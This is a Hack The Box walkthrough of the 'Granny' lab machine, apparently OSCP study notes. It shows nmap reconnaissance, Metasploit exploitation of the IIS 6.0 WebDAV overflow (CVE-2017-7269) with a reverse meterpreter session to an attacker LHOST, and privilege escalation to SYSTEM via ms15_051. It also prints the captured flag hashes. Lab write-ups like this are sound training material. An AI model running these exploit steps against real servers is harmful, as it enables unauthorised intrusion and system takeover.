





**Start 21:25 15-08-2024**

---
```
10.10.10.15
```
## Recon

### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.15                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 20:26 IST
Nmap scan report for 10.10.10.15
Host is up (0.081s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.23 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -T5 10.10.10.15 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 20:26 IST
Nmap scan report for 10.10.10.15
Host is up (0.080s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Thu, 15 Aug 2024 19:27:30 GMT
|_  Server Type: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.40 seconds
```

We look this version of `Microsoft IIS httpd 6.0` up and find a vulnerability right away:



Luckily for us there's a `Metasploit` module for this exact exploit:

```bash
msf6 > search CVE-2017-7269

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank    Check  Description
   -  ----                                                 ---------------  ----    -----  -----------
   0  exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26     
   manual  Yes    Microsoft IIS WebDav ScStoragePathFromUrl Overflow
```

## Metasploit

### Options
Fairly straightforward, we set it up nice and easy 



```bash
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOSTS 10.10.10.15
RHOSTS => 10.10.10.15
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set LHOST 10.10.14.4
LHOST => 10.10.14.4
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run
```

You should get a `meterpreter shell` in no time.

### Meterpreter
After trying `getuid` it seems we are not privileged enough.

```bash
meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```

We spawn a shell using `shell` and check the `OS info` using `systeminfo`:

```powershell
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 15 Minutes, 18 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 753 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,290 MB
Page File: In Use:         180 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

Looks like we're running a `x86 based Windows 2003 Server`. Let's check for ways to escalate our privileges. I background the current session and get back into `msfconsole`.
For this we'll run [local exploit suggester](Windows%20Privilege%20Escalation.md#Metasploit#Exploit%20Suggester):

```bash
use post/multi/recon/local_exploit_suggester
```

I've set it to `SESSION 1` and `run` the exploit.



Before we move on we need to `migrate processes` to a process which is running under `system`
We do this by simply typing `ps` in the `meterpreter` session:



Afterwards we'll want to `migrate` to any of the processes. I chose `2344, davcdata.exe` in my case.

```bash
meterpreter > migrate 2344
[*] Migrating from 2232 to 2344...
[*] Migration completed successfully.
```

Now we can use any of the exploits. I'll use `
`exploit/windows/local/ms15_051_client_copy_image` .



```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Easy Peasy

### user.txt
```powershell
C:\Documents and Settings\Lakis\Desktop>type user.txt
type user.txt
700c5dc163014e22b3e408f8703f67d1
```

### root.txt
```powershell
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c0584445ab463a6747bd06e9
```


---

**Finished 22:01**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
